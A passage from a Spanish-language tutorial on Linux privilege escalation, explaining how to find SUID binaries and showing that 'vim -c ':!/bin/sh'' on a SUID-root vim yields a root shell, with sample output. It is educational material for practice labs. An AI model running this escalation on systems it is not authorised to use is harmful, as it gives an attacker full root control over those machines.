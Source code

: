 ### Explicación:

- `find` busca archivos con permiso SUID (`-perm -4000`).
    
- Muchos binarios estándar del sistema tienen este bit para permitir ciertas operaciones administrativas.
    
- La clave está en identificar cuáles de estos pueden ser abusados para escalar privilegios.
    

---

## Ejemplo práctico: Abusando de un binario SUID vulnerable (por ejemplo, `vim` o `less`)

Supongamos que encontramos un binario con SUID que permite abrir una shell.

### Acción:

Para probar con `vim` si tiene SUID:

```bash
ls -l /usr/bin/vim
```

Si tiene SUID (`-rwsr-xr-x`), podemos intentar:

```bash
vim -c ':!/bin/sh' -c ':q'
```

---

### Resultado:

```bash
# whoami
root
```

---

### Explicación:

- El comando `vim -c ':!/bin/sh'` abre una shell desde dentro de vim.
    
- Si `vim` se ejecuta con privilegios SUID root, esta shell será root.
    
- Esto representa una escalada total de privilegios.
    

---

## Ejemplo práctico: Modificando permisos para simular un binario SUID vulnerable

En un entorno controlado, podemos simular un binario con permiso SUID para practicar.
